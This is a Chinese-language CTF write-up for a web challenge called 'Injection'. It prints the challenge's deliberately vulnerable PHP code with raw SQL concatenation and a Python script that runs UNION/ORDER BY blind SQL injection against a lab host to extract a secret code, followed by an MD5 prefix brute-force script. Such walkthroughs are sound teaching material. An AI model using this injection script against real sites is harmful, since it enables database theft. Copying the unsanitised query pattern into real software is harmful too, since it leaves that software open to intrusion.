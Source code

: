 ```yaml
---
title: AH-Web-Write-Up
date: 2018-06-12 16:34:37
categories: Write Up
tags:
description:
---
```


记录一下一些题目
<!-- more -->
# Injection
很有意思的一道题目，也看了别人wp，懂得了很多，写一下自己的理解

<br>
## 题目分析
提示给的是 注入！注入！注入！
访问靶机，出现一张简单的登录页面

![injection1](injection1.png)


随便尝试一些弱口令和万能密码，没什么结果，右键源代码，发现提示信息

![injection2](injection2.png)

进入是一张注册界面，简单的注册个账户，先尝试登录，发现登录成功，发现很明显的id参数，所以直接开始尝试一下其他id的值(1,2,3,4)

![injection3](injection3.png)


发现`id=1`是admin的账户并且给出了提示


![injection4](injection4.png)

访问后发现是站点源码，只有5张页面

![injection5](injection5.png)

先看`profile.php`，由于代码量，所以只给出关键代码

页面开头给出了表结构，但是第四列是一个变量，也就是我们无法得到第四列名的信息
```
/*
CREATE TABLE `users` (
  `id` int(5) NOT NULL AUTO_INCREMENT,
  `user` varchar(20) DEFAULT NULL,
  `pass` varchar(32) DEFAULT NULL,
  `$secret` varchar(36) DEFAULT NULL,
  `count` int(3) DEFAULT NULL,
  PRIMARY KEY (`id`)
)
*/
```

剩下代码业务逻辑大致是 访问页面后会判断用户信息，记录访问次数，如果访问次数超过140次，那么兑换码就会被重置($secret字段就是存兑换码的字段)
而兑换码是根据`1234567890abcdefghijklmnopqrstuvwxyz`乱序去生成的
关键代码如下
```
// 兑换码生成与验证
function duihuanma_product()
{
    $string = "1234567890abcdefghijklmnopqrstuvwxyz";
    return str_shuffle($string);
}

function change($secret)
{
    global $username,$row;
    $duihuanma = duihuanma_product();
    $row = mysql_fetch_array(mysql_query("select * from users where user='$username'"));
    $count = $row['count'];
    if (!$row[$secret]){
        mysql_query("update users set $secret='{$duihuanma}' where user='$username'");
    }
    if($row['count'] == 140)
    {

        if(mysql_query("update users set $secret='{$duihuanma}' where user='$username';"))
        {
            mysql_query("update users set count=0 where user='$username';");
            die("<center><br><h3>尝试次数过多，兑换码已经重置</h3></center>");
        }
        return $duihuanma;
    }
    else
    {
    mysql_query("update users set count=({$row['count']} + 1) where user='$username';");
    }
    return $row[$secret];
}

// id值的业务代码
$id=$_GET['id']?$_GET['id']:0;
if(preg_match("#\.#",$id) or preg_match("#_#",$id) or preg_match("#\(#",$id) or preg_match("#\)#",$id))
    die('<h3>danger character dectected</h3>');
$sql = "select * from users where id=$id";
$result = mysql_query($sql);
$rownew = @mysql_fetch_array($result);
$rownew['user']=$rownew['user']?$rownew['user']:"noman";
?>
<h3>This is <?php echo $rownew['user'];?> page,您已经访问<?php echo $row['count']+1;?>次</h3><br>
<?php
if ($rownew['user']==='admin'){
    echo "<br><h3>good job,hint: thisissourcecode.zip</h3>";
}
```

在看`flag.php`页面，界面效果如下

![injection6](injection6.png)

看页面也知道需要兑换码和md5验证才能获得flag，关键代码如下
```
// 验证码生成
$captcha= getCaptcha(4);
$_SESSION['captcha'] = $captcha;
function getCaptcha($length){
	$str = null;
	$strPol = "0123456789abcdef";
	$max = strlen($strPol)-1;

	for($i=0;$i<$length;$i++){
		$str.=$strPol[rand(0,$max)];
	}
	return $str;
}

// 对比验证码
if (isset($_POST['captcha']) && isset($_POST['duihuanma'])) {
	if(!(substr(md5($_POST['captcha']), 0, 4)===$_SESSION['captcha']))
		die('<center><p>captcha not right</p></center>');
    $sql = "select $secret from users where user='${_SESSION['username']}'";
    #echo $sql;
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);

}

// 对比兑换码
if (isset($_POST['duihuanma'])){
  if ($row[$secret]===$_POST['duihuanma']){
      echo "<br><center>".$flag."</center>";
  }else{
      echo "<center>flag兑换码不正确</center>";
  }
}
```
<br>
## Order by 盲注获得兑换码
代码审计下来得到了大致的思路，需要先注入得到兑换码，然后在爆破MD5验证码后，提交即可

但是注入过滤了`. _ ( )` ，所以我们无法使用函数
同时我们也不知道兑换码字段名称，那么常规的方法无从下手
查阅资料得到，可以通过order by的一种注入手段来得到数据内容，具体原理可以看以下两篇文章，总结的很好
[利用order by 进行盲注](http://p0sec.net/index.php/archives/106/)
[基于union查询的盲注(感谢pcat牛不吝赐教)](http://wonderkun.cc/index.html/?p=547)

我们可以利用**UNION与ORDER BY 在不需要知道列名的情况下盲注得到真实数据**

假设兑换码第一个字符是`5`，当我们执行如图的语句之后，由于`6`的ASCII码比`5`大，所以还是显示原来的数据内容

![injection7](injection7.png)
![injection8](injection8.png)
![injection9](injection9.png)

观察上面的图片，就能发现
 - 传入值大于兑换码值，会显示原来的数据
 - 传入值小于或等于兑换码，会显示`union`的数据

但是题目要求我们在140内需要得到答案，如果使用了二分法也无法达到140内(测试下来一个数大概需要5-6次便可以确定，36个数便远远超过预设值)

但是兑换码生成的算法是**乱序**，也就是说每一个字符必定只出现一次(在想的时候[gokoucat大佬](http://gokoucat.cn/)看一眼就找到了关键点，膜拜)

那么便有可能达到140内，并且最后一次也无需去发送请求(同时膜拜[phorse师傅如何更高效的盲注爆取数据-二分法](https://xz.aliyun.com/t/1520/?utm_source=tuicool&utm_medium=referral))
那么我们便可以写出python脚本
```python
# coding=utf-8
import requests
import math

ALL = "0123456789abcdefghijklmnopqrstuvwxyz"
flag = ""
cookies = {"PHPSESSID": "7v527f98146aite4mobo4n0b13"}
count = 0
for i in range(35):
    left = 0
    right = len(ALL) - 1
    mid = int(math.ceil((left + right) / 2.0))
    while left < right:
        count += 1
        url = "http://10.10.118.51/profile.php?id=5 union select 1,2,3,'"+ flag + str(ALL[mid]) + "',5 order by 4"
        res = requests.get(url, cookies=cookies).text
        if "This is 2 page" in res:
            left = mid
        else:
            right = mid - 1
        mid = int(math.ceil((left + right) / 2.0))
        print(left, mid, right)
    flag += ALL[mid]
    # 去除已经出现的字符
    ALL = ALL.replace(ALL[mid], '')

print("-" * 100)
print(flag+ALL)
print(count)
print("-" * 100)
```
这边需要注意的是，由于`x<mid or x = mid`的回显情况相同都是`This is 2 page`，而`x>mid`的回显情况是`id=5的用户名` (x为兑换码)
所以计算`mid`需要向上取整

结果如下
![injection10](injection10.png)

<br>
## 爆破MD5验证码
我们已经获得了兑换码，那么还需要利用简单的python脚本爆破MD5验证码
```
import hashlib

result = 1
while True:
    m = hashlib.md5(str(result))
    m = m.hexdigest()
    if m[0:4] == "ee6a":
        print(m)
        print(result)
        break
    result += 1
```
结果如下

![injection11](injection11.png)

提交后可以成功获取flag值

![injection12](injection12.png)


后来在google中也找到了原题的wp，非常详细的解答
[【原创】Pwnhub会员日一题引发的思考](https://xz.aliyun.com/t/1520/?utm_source=tuicool&utm_medium=referral#toc-2)
